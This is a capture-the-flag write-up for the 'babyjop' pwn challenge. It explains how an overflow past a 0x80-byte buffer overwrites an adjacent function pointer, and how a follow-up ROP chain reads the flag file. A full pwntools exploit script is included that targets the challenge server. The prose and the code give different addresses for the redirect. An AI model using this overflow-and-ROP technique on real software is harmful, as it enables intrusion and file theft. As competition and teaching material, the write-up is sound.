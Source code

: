 I got first blood on this challenge, so here is a little write-up.

Description of the vulnerability:

The program reads 0x84 byte on a buffer of 0x80 size, 

just after the buffer is a function pointer that is called later, 

so you can overwrite the 4 lsb of the function pointer. (more than enough)


![](https://imgur.com/0JF9cVI.png)

Here you can see, the buffer, and the fonction pointer just next:


![](https://imgur.com/1Bcmq7w.png)

So , we will overwrite the function ptr with 0x4018ea address,

to make a ret2main,  and read again the buffer, but this time with edx=0x4018ea as a size for the read

so we will have no limit for the size, and can do rop as we want..

The rest is classic, we do a ROP that open the file, read it, write it to stdout...

![](https://imgur.com/QTjZMca.png)

```python
from pwn import *

context.log_level = 'info'

exe = ELF('./babyjop')

host, port = "remote1.thcon.party", "10902"
p = remote(host,port)

gadget1 = 0x00000000004018ca # pop rdi ; ret
gadget2 = 0x00000000004017cf # pop rdx ; ret
gadget3 = 0x000000000040f4fe # pop rsi ; ret

p.sendlineafter('age: \n', '1')
# first payload ret2main ,  read again data, but this time with edx bigged..(no limit)
payload = b'A'*128+p32(0x401e8a)
p.sendafter('name: ', payload)

# next fd number remote (guessed after some tries)
fd = 5
payload2 =  b'/home/user/flag.txt\x00'.ljust(88,b'\x00')
# open the /home/user/flag.txt file
payload2 += p64(gadget1)+p64(0x4c3300)+p64(gadget3)+p64(0)+p64(gadget2)+p64(0x0000000000452781) + p64(exe.sym['open'])
# read it
payload2 += p64(gadget1)+p64(fd)+p64(gadget3)+p64(0x4c3300)+p64(gadget2)+p64(0x100)+p64(exe.sym['read'])
# write the file to stdout
payload2 += p64(gadget1)+p64(1)+p64(gadget2)+p64(0x100)+p64(0x451520)+p64(exe.sym['write'])
# send second payload
p.send(payload2)

p.interactive()

```
nobodyisnobody for RootMeUpBeforeYouGoGo
